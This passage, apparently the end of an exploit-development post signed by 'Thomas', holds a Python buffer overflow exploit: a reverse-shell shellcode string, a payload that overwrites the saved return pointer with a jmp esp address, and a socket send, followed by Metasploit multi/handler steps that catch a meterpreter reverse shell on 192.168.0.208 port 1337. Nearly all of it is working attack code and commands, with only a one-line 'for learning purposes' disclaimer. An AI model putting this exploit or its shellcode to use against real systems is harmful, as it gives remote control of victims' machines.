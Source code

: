 ```python
shellcode_rev += "\xa5\xbb\xb9\xc7\x29\xe4\xda\xe7\xe3\x8d\x71"
shellcode_rev += "\x08\x5a\xe6\xed\xb1\xc7\x7c\x8f\x3e\xd2\xf9"
shellcode_rev += "\x8f\xb5\xd7\xfe\x5e\x3e\x9d\xec\xb7\x59\x5d"
shellcode_rev += "\xec\x47\xcc\x5d\x86\x43\x46\x09\x3e\x4e\xbf"
shellcode_rev += "\x7d\xe1\xb1\xea\xfd\xe5\x4e\x6b\x34\x9e\x79"
shellcode_rev += "\xf9\x78\xc8\x85\xed\x78\x08\xd0\x67\x79\x60"
shellcode_rev += "\x84\xd3\x2a\x95\xcb\xc9\x5e\x06\x5e\xf2\x36"
shellcode_rev += "\xfb\xc9\x9a\xb4\x22\x3d\x05\x46\x01\x3d\x42"
shellcode_rev += "\xb8\xd4\x6a\xeb\xd1\x26\x2b\x0b\x22\x4c\xab"
shellcode_rev += "\x5b\x4a\x9b\x84\x54\xba\x64\x0f\x3d\xd2\xef"
shellcode_rev += "\xde\x8f\x43\xf0\xca\x4e\xda\xf1\xf9\x4a\xed"
shellcode_rev += "\x88\x72\x6c\x0e\x6d\x9b\x09\x0e\x6e\xa3\x2f"
shellcode_rev += "\x32\xb9\x9a\x45\x75\x7a\x99\x46\x68\x56\xd4"
shellcode_rev += "\xee\x35\x33\x55\x73\xc6\xee\x9a\x8a\x45\x1a"
shellcode_rev += "\x63\x69\x55\x6f\x66\x35\xd1\x9c\x1a\x26\xb4"
shellcode_rev += "\xa2\x89\x47\x9d"


buf = ""
buf += "A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)   # SRP overwrite
buf += sub_esp_10                       # ESP points here
buf += shellcode_rev
buf += "D"*(buf_totlen - len(buf))      # trailing padding
buf += "\n"

s.send(buf)
```

Before executing set up multi handler to catch the shell:

- msfconsole
- use exploit/multi/handler 
- set payload windows/meterpreter/reverse_tcp
- set lhost 192.168.0.208
- set lport 1337
- options (TO CONFIRM)
- exploit

As always this is for learning purposes, please don't be dumb with this stuff. 

Cheers,
Thomas
